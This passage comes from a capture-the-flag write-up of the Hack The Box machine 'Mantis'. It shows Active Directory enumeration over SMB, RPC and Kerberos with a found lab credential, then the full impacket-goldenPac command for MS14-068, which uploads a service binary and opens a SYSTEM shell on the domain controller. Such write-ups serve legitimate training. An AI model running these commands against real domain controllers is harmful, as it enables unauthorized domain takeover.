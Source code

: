 ```bash
    │       └── USER
    └── scripts

17 directories, 5 files
```

I dumped contents from `SYSVOL` share.
I read all existing files, but none of them were useful..

### rpc(135)

Used the same credential again.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ rpcclient -U 'james' 10.10.10.52
Password for [WORKGROUP\james]:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[james] rid:[0x44f]
```

It worked, but no additional user's found.

### kerberos(88)

Tried to find if there's any AS-RepRoastable users, but there's nothing.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetNPUsers 'htb.local/james:J@m3s_P@ssW0rd!' -dc-ip 10.10.10.52
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] [Errno 113] No route to host
```

So far, we've checked the found credential is working on various service, but they were not useful for spawning a shell.

# Shell as `SYSTEM`

After striking out on more exploitation, I started to Google a bit, and eventually found [this blog post](https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html) about MS14-068. Basically it’s a critical vulnerability in Windows DCs that allow a simple user to get a Golden ticket without being an admin. With that ticket, I am basically a domain admin.

Luckily, `impacket-GoldenPac` is useful for this exploit.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-goldenPac htb.local/james:'J@m3s_P@ssW0rd!'@mantis.htb.local
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file JAfevXwk.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service FvIA on mantis.htb.local.....
[*] Starting service FvIA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
```